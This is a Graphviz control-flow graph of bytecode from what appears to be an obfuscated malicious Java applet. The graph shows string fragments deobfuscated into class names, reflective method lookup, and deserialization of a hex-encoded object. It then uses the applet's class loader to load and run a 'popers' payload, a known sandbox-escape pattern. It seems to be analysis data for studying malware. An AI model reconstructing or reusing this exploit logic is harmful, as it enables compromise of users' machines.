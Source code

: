 digraph "" {
    "r0 := @this: hw"
    "push \"juIu.L\""
    "r0 := @this: hw"->"push \"juIu.L\"";
    "push \"Wyf.+\""
    "push \"juIu.L\""->"push \"Wyf.+\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"Wyf.+\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"hd+Ltt\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"hd+Ltt\"";
    "push \"hd+Ltt\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ZdW.\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ZdW.\"";
    "push \"ZdW.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"uWhYy\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"uWhYy\"";
    "push \"uWhYy\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"+.-Wh\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"+.-Wh\"";
    "push \"+.-Wh\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Yy+K\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Yy+K\"";
    "push \"Yy+K\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ZsZtZ\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ZsZtZ\"";
    "push \"ZsZtZ\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"d+Z-tt\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"d+Z-tt\"";
    "push \"d+Z-tt\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"u)\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"u)\"";
    "push \"u)\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push \"9ZW\""
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push \"9ZW\"";
    "push \"9ZW\""->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "push 2"
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r12"
    "store.r r12"->"load.r r12";
    "push 0"
    "load.r r12"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "push 1"
    "load.r r12"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r12"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "new java.io.ByteArrayInputStream"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"new java.io.ByteArrayInputStream";
    "store.r $r32"
    "new java.io.ByteArrayInputStream"->"store.r $r32";
    "load.r $r32"
    "store.r $r32"->"load.r $r32";
    "staticinvoke <Impossible: java.lang.String getSunJCE()>"
    "load.r $r32"->"staticinvoke <Impossible: java.lang.String getSunJCE()>";
    "staticinvoke <Impossible: java.lang.String getSunJCE()>"->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "load.r r0"
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"load.r r0";
    "staticinvoke <Impossible: java.lang.String get(java.applet.Applet)>"
    "load.r r0"->"staticinvoke <Impossible: java.lang.String get(java.applet.Applet)>";
    "staticinvoke <Impossible: java.lang.String get(java.applet.Applet)>"->"store.r r12";
    "staticinvoke <codehex: byte[] decodeH(java.lang.String)>"
    "store.r r12"->"staticinvoke <codehex: byte[] decodeH(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <codehex: byte[] decodeH(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r32";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r32"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r32";
    "store.r $r32"->"load.r $r32";
    "load.r $r32"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r32";
    "load.r $r32"->"push 1";
    "push \"popers.class\""
    "push 1"->"push \"popers.class\"";
    "push \"popers.class\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r32";
    "load.r $r32"->"push 2";
    "push 123"
    "push 2"->"push 123";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 123"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r32";
    "push 3"
    "load.r $r32"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r32";
    "push 4"
    "load.r $r32"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r $r32";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"
    "load.r $r32"->"staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"->"load.r $r32";
    "load.r $r32"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r12";
    "staticinvoke <popers: void runPoper(popers,java.lang.String)>"
    "load.r r12"->"staticinvoke <popers: void runPoper(popers,java.lang.String)>";
    "goto return"
    "staticinvoke <popers: void runPoper(popers,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <popers: void runPoper(popers,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
